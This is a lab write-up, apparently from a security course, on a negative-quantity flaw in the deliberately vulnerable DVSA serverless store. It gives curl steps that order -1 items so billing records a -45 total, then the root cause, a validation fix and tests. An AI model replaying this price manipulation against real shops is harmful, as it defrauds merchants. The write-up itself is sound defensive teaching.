






# Bonus Vulnerability 4: Negative Quantity Injection — Price Manipulation

---

## Part 1) Goal and Vulnerability Summary

This is an undocumented bonus vulnerability discovered in the DVSA-ORDER-NEW Lambda function. The application allows users to create orders by specifying item IDs and quantities. However, the new order handler performs no validation on the quantity values provided by the user. An attacker can create an order with a negative quantity such as -1, which the system accepts and stores without complaint. When billing is triggered, the cart total service calculates the price using the negative quantity, resulting in a negative total amount such as -45. The billing Lambda then processes this negative amount as a valid payment, meaning the store effectively owes the customer money instead of charging them. The security impact is a complete price integrity failure that could allow an attacker to manipulate order totals to their advantage.

---

## Part 2) Why This Works / Root Cause

The DVSA-ORDER-NEW Lambda function reads the item list directly from the event and stores it in DynamoDB without checking whether the quantities are valid positive numbers. Since no validation occurs at order creation time, any quantity value including negative numbers, zero, or non-numeric values is accepted and stored. When the cart total service later processes this item list, it performs the calculation qty * price where qty is negative, producing a negative total. The root cause is therefore the complete absence of input validation on the quantity field in the order creation workflow.

---

## Part 3) Environment and Setup

- **API Endpoint:** https://[API-ID].execute-api.us-east-1.amazonaws.com/Stage/order
- **Affected Lambda:** DVSA-ORDER-NEW
- **Affected File:** new_order.py
- **AWS Region:** us-east-1
- **Tools:** curl, jq, Browser DevTools, AWS Lambda Console

---

## Part 4) Reproduction Steps

**Step 1 — Export API and TOKEN**
export API="https://[API-ID].execute-api.us-east-1.amazonaws.com/Stage/order"
export TOKEN="[REDACTED]"

**Step 2 — Create order with negative quantity**
curl -s -X POST "$API" \
  -H "Content-Type: application/json" \
  -H "Authorization: $TOKEN" \
  -d '{"action":"new","cart-id":"neg-test-001","items":{"1017":-1}}' | jq

**Step 3 — Export ORDER_ID and add shipping**
export ORDER_ID="[returned order-id]"

curl -s -X POST "$API" \
  -H "Content-Type: application/json" \
  -H "Authorization: $TOKEN" \
  -d "{\"action\":\"shipping\",\"order-id\":\"$ORDER_ID\",\"data\":{\"address\":\"123 Test St\",\"email\":\"test@test.com\",\"name\":\"Test User\"}}" | jq

**Step 4 — Run billing to trigger negative total**
curl -s -X POST "$API" \
  -H "Content-Type: application/json" \
  -H "Authorization: $TOKEN" \
  -d "{\"action\":\"billing\",\"order-id\":\"$ORDER_ID\",\"data\":{\"ccn\":\"4242424242424242\",\"exp\":\"12/26\",\"cvv\":\"123\"}}" | jq

**Step 5 — Check order state**
curl -s -X POST "$API" \
  -H "Content-Type: application/json" \
  -H "Authorization: $TOKEN" \
  -d "{\"action\":\"get\",\"order-id\":\"$ORDER_ID\"}" | jq

---

## Part 5) Evidence and Proof

**Screenshot 1 — Export API and TOKEN:**

**Screenshot 2 — Create order with negative quantity:**

**Screenshot 3 — Add shipping:**

**Screenshot 4 — Billing response showing amount: -45:**

**Screenshot 5 — Order state showing totalAmount: -45:**

**Screenshot 6 — Vulnerable code showing no quantity validation:**

---

## Part 6) Fix Strategy / Probable Mitigation

The fix was applied inside the DVSA-ORDER-NEW Lambda function in new_order.py. A validation loop was added immediately after reading the item list from the event. For each item in the order, the handler now checks whether the quantity is a positive number greater than zero. If any item has an invalid quantity such as a negative number or zero, the function immediately returns an error and the order is never created in DynamoDB.

---

## Part 7) Code / Config Changes

**File:** new_order.py in DVSA-ORDER-NEW Lambda

See fix/vulnerable-new-order.py for the before code.
See fix/fixed-new-order.py for the after code.

BEFORE (Vulnerable):
itemList = event["items"]
No validation — negative quantities accepted

AFTER (Fixed):
for item_id, quantity in itemList.items():
    if not isinstance(quantity, (int, float)) or quantity <= 0:
        return {"status": "err", "msg": "invalid item quantity"}

**Screenshot 7 — Fixed code in Lambda editor:**

---

## Part 8) Verification After Fix

Three tests performed after fix:
- Negative quantity -1 returned "invalid item quantity"
- Zero quantity 0 returned "invalid item quantity"
- Valid quantity 1 returned "order created"

**Screenshot 8 — All three verification tests:**

---

## Part 9) Structured Operation and Security Analysis

### Table A

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
|---|---|---|---|---|
| Bonus 4 — Negative Quantity Injection | Item quantities must be positive integers greater than zero. The billing total must always be a positive amount. | curl API requests, order creation with negative quantity, billing response, order state via get action, new_order.py source code | Normal order with quantity 1 for item 1017 is billed correctly showing amount: 45 | Order created with quantity -1 is accepted, billing returns amount: -45, and totalAmount: -45 is stored in DynamoDB |

### Table B

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied (Where) | Post-Fix Verification | Optional Latency |
|---|---|---|---|---|---|
| Bonus 4 — Negative Quantity Injection | The order creation function accepted negative quantities without any validation, allowing the cart total service to calculate a negative price. This violates the rule that all order quantities must be positive and that billing must always charge a positive amount. | Intentional misuse / security-relevant abuse | Quantity validation loop added to new_order.py in DVSA-ORDER-NEW Lambda | Negative quantity returns "invalid item quantity". Zero quantity returns "invalid item quantity". Valid quantity 1 still creates order successfully. | Not measured |

---

## Part 10) Takeaway / Lessons Learned

This vulnerability showed us that input validation must happen at every stage of the workflow and for every field — not just the obvious ones like authentication tokens or SQL inputs. The quantity field looks harmless but it feeds directly into the price calculation, making it a critical field that must be validated. The assumption that users will always provide sensible positive quantities is a classic logic flaw. In a real e-commerce application this could allow attackers to receive refunds or credits they are not entitled to, or to manipulate order totals in ways that cause financial damage to the business. The fix was simple — a few lines of validation before storing the order — but the lesson is that every user-controlled numeric field that feeds into financial calculations must be validated for range, type, and sign before being trusted.